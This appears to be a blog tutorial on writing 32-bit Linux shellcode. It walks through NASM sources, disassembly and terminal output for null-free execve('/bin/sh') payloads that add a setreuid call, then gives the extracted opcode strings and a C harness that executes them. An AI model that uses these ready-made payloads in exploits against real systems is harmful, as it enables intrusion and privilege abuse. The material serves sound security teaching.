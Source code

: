 ```yaml
---
layout: post
title: "IA-32 Linux Shellcode Basics 2"
date: 2015-06-26 11:08:30 +0200
comments: true
categories: [exploit, shellcode]
---
```

The ASM code that is position dependent:
{% codeblock lang:asm shell1.asm %}
section .data
cmd db '/bin/sh',0x0

section .text
global _start
_start:

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
mov eax, 11
lea ebx, [cmd]
mov ecx, 0
push ecx
push ebx
mov ecx, esp
mov edx, 0
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell1.asm; ld shell1.o -o shell1

root@kali32:/tmp# ./shell1 
# 
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell1

shell1:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	b8 0b 00 00 00       	mov    eax,0xb
 8048085:	8d 1d 9c 90 04 08    	lea    ebx,ds:0x804909c
 804808b:	b9 00 00 00 00       	mov    ecx,0x0
 8048090:	51                   	push   ecx
 8048091:	53                   	push   ebx
 8048092:	89 e1                	mov    ecx,esp
 8048094:	ba 00 00 00 00       	mov    edx,0x0
 8048099:	cd 80                	int    0x80
{% endcodeblock %}

The minimalistic shell could look like `execve("/bin/sh", NULL, NULL)`.
However, according documentation it's not portable among UNIX systems:

{% codeblock %}
man 2 execve

  On Linux, argv can be specified as NULL, which has the same effect as
  specifying this argument as a pointer to a list containing a single NULL
  pointer.  Do not take advantage of this  misfea‐ ture!  It is nonstandard and
  nonportable: on most other UNIX systems doing this will result in an error
  (EFAULT).
{% endcodeblock %}

Again, the same procedure. We need to get rid of absolute address reference and
NULL bytes.

{% codeblock lang:asm shell2.asm %}
section .text
global _start
_start:

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
xor eax, eax
xor edx, edx

push eax ; \0
push 'n/sh'
push '//bi'
mov ebx, esp

push eax ; \0
push ebx ; /bin/sh
mov ecx, esp

mov  al, 11
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell2.asm; ld shell2.o -o shell2

root@kali32:/tmp# ./shell2 
# 
{% endcodeblock %}

Before we dump our opcodes, we add `setreuid(geteuid(), geteuid()` call:

{% codeblock lang:asm shell3.asm %}
section .text
global _start
_start:

; geteuid
push byte 49
pop eax
int 0x80

; setreuid(geteuid(), geteuid()
mov ebx, eax
mov ecx, eax
push byte 70
pop eax
int 0x80

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
xor eax, eax
xor edx, edx

push eax ; \0
push 'n/sh'
push '//bi'
mov ebx, esp

push eax ; \0
push ebx ; /bin/sh
mov ecx, esp

mov  al, 11
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell3.asm; ld shell3.o -o shell3

root@kali32:/tmp# ./shell3 
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell3

shell3:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	6a 31                	push   0x31
 8048062:	58                   	pop    eax
 8048063:	cd 80                	int    0x80
 8048065:	89 c3                	mov    ebx,eax
 8048067:	89 c1                	mov    ecx,eax
 8048069:	6a 46                	push   0x46
 804806b:	58                   	pop    eax
 804806c:	cd 80                	int    0x80
 804806e:	31 c0                	xor    eax,eax
 8048070:	31 d2                	xor    edx,edx
 8048072:	50                   	push   eax
 8048073:	68 6e 2f 73 68       	push   0x68732f6e
 8048078:	68 2f 2f 62 69       	push   0x69622f2f
 804807d:	89 e3                	mov    ebx,esp
 804807f:	50                   	push   eax
 8048080:	53                   	push   ebx
 8048081:	89 e1                	mov    ecx,esp
 8048083:	b0 0b                	mov    al,0xb
 8048085:	cd 80                	int    0x80
{% endcodeblock %}

Analogously as before:
{% codeblock %}
root@kali32:/tmp# objdump -d shell3 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d ''
\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# sc=$(objdump -d shell3 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d '')

root@kali32:/tmp# echo $sc | ruby -e 'print $stdin.read.scan(/\\x(..)/).flatten.map{ |x| x.to_i(16).chr }.join' > shellcode
{% endcodeblock %}

{% codeblock %}
#include <sys/mman.h>
#include <string.h>
#include <stdio.h>

char sc[]= "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(){
        void * a = mmap(0, 4096, PROT_EXEC |PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0); 
        printf("allocated executable memory at: %p\n", a); 
        printf("shellcode length: %d\n", strlen(sc)); 
        ((void (*)(void)) memcpy(a, sc, sizeof(sc)))();
}
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# gcc test.c -o test
root@kali32:/tmp# ./test 
allocated executable memory at: 0xb76f7000
shellcode length: 39
# 
{% endcodeblock %}

Alternatively we can obtain string reference with `call` instruction:

{% codeblock lang:asm shell4.asm %}
section .text
global _start
_start:

; geteuid
push byte 49
pop eax
int 0x80

; setreuid(geteuid(), geteuid()
mov ebx, eax
mov ecx, eax
push byte 70
pop eax
int 0x80

;execve("/bin/sh", NULL, NULL);
xor eax, eax
xor ecx, ecx
xor edx, edx

jmp short string_loc

string_loc_ret:
pop ebx
mov [ebx+7], cl ; rewrite N with \0

push edx; \0
push ebx; /bin/sh
mov esp, ecx

mov al, 11
int 0x80

string_loc:
call string_loc_ret ; this put the (return) address of the string to the top of the stack
db '/bin/shN'
{% endcodeblock %}


{% codeblock %}
root@kali32:/tmp# nasm -f elf shell4.asm; ld shell4.o -o shell4

root@kali32:/tmp# ./shell4
Segmentation fault
{% endcodeblock %}

The segfault is normal and it's because we are trying to overwrite the code
segment at the line `mov BYTE PTR [ebx+0x7],cl`. Because our shellcode will be
loaded on stack, that doesn't mean any complication.

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell4

shell4:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	6a 31                	push   0x31
 8048062:	58                   	pop    eax
 8048063:	cd 80                	int    0x80
 8048065:	89 c3                	mov    ebx,eax
 8048067:	89 c1                	mov    ecx,eax
 8048069:	6a 46                	push   0x46
 804806b:	58                   	pop    eax
 804806c:	cd 80                	int    0x80
 804806e:	31 c0                	xor    eax,eax
 8048070:	31 c9                	xor    ecx,ecx
 8048072:	31 d2                	xor    edx,edx
 8048074:	eb 0c                	jmp    8048082 <string_loc>

08048076 <string_loc_ret>:
 8048076:	5b                   	pop    ebx
 8048077:	88 4b 07             	mov    BYTE PTR [ebx+0x7],cl
 804807a:	52                   	push   edx
 804807b:	53                   	push   ebx
 804807c:	89 cc                	mov    esp,ecx
 804807e:	b0 0b                	mov    al,0xb
 8048080:	cd 80                	int    0x80

08048082 <string_loc>:
 8048082:	e8 ef ff ff ff       	call   8048076 <string_loc_ret>
 8048087:	2f                   	das    
 8048088:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
 804808b:	2f                   	das    
 804808c:	73 68                	jae    80480f6 <string_loc+0x74>
 804808e:	4e                   	dec    esi
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -d shell4 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d ''
\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xc9\x31\xd2\xeb\x0c\x5b\x88\x4b\x07\x52\x53\x89\xcc\xb0\x0b\xcd\x80\xe8\xef\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e
{% endcodeblock %}

{% codeblock lang:c test.c %}
#include <sys/mman.h>
#include <string.h>
#include <stdio.h>

char sc[]= "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xc9\x31\xd2\xeb\x0c\x5b\x88\x4b\x07\x52\x53\x89\xcc\xb0\x0b\xcd\x80\xe8\xef\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e";

int main(){
        void * a = mmap(0, 4096, PROT_EXEC |PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0); 
        printf("allocated executable memory at: %p\n", a); 
        printf("shellcode length: %d\n", strlen(sc)); 
        ((void (*)(void)) memcpy(a, sc, sizeof(sc)))();
}
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# ./test 
allocated executable memory at: 0xb7789000
shellcode length: 47
# 
{% endcodeblock %}

